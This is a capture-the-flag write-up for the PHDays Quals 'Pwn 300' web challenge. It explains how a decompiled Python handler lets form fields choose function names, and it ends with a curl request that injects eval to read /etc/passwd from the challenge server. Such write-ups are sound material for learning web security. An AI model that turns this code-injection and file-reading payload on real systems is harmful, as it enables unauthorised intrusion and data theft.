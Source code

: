 # PHDays Quals Pwn 300

PWN 300 is a 'south park administration' website.

It only has a form:

* Select between {Kenny, Stan, Kyle, Eric, Butters, Token}
* Radio buttons for {Kill, Arrest, Bankrupt}
* Submit button

Click submit, and it'll return a message like `Kenny was killed`,
depending on the input.

The html source code provides a comment, stating that **the flag is inside
of /etc/passwd**. We are also given the source code for the website.

**web.py** is a python twisted web server.
By default, it serves the main web page, which is hard coded as a
string. For POST requests, it passes the arguments from the request to a
function from the other file.

**process.pyc** is compiled python that web.py makes use of.

We decompile process.pyc to get process.py. Thanks [unpyc](http://code.google.com/p/unpyc/). There is one issue with the decompiled code. A line inside of the 'create_function' function in process.py reads: 

    consts = ((None,) + (human))

Which doesn't work. Change it so that it does what it probably was meant
to do.

    consts = tuple([None, human])

Now it is possible to run web.py locally and have the same output as the
online version.

**process.py** provides a function that dynamically builds up another
function. What it does:

* Builds up an list of information needed for a python code object.
* Passes the list into types.codeType to generate a python code object.
* Passes the python code object into types.FunctionType to create a function.
* Calls the resultant function and passes the output string back to
  web.py.

It turns out that we don't actually need to understand how python code
objects work to exploit this.

Here is the bottom of process.py, which is all that we actually need to
exploit this.

```python
def kill(name):
    return ('%s was killed' % name)

def arrest(name):
    return ('%s was arrested' % name)

def bankrupt(name):
    return ('%s was bankrupted' % name)

def process(args):
    actions = tuple(args['actions'])
    choice = args['choice'][0]
    human = args['human'][0]
    return create_function('myfunc', 0, choice, actions, human)()
```

When printed, args looks like this (depends on what the web client passes in):

    kill kenny   {'actions': ['kill', 'arrest', 'bankrupt'], 'human': ['Kenny'], 'choice': ['\x00']} 

Based on the value inside of 'choice', process.py will choose one of the
options inside of 'actions', which correspond to function names to use
in the dynamically generated function. The first value inside of 'human'
gets passed in as an argument. We can replace one of the functions with
eval. We want args to look like:

    {'actions': ['eval', 'arrest', 'bankrupt'], 'human': ['str(open("/etc/passwd"))'], 'choice': ['\x00']}

Construct a request to send in these parameters:

    $ curl -d "actions=eval&actions=arrest&human=str(open(\"/etc/passwd\").read())&choice=%00" http://ctf.phdays.com:2137

And it dumps /etc/passwd, which contains the flag in plaintext
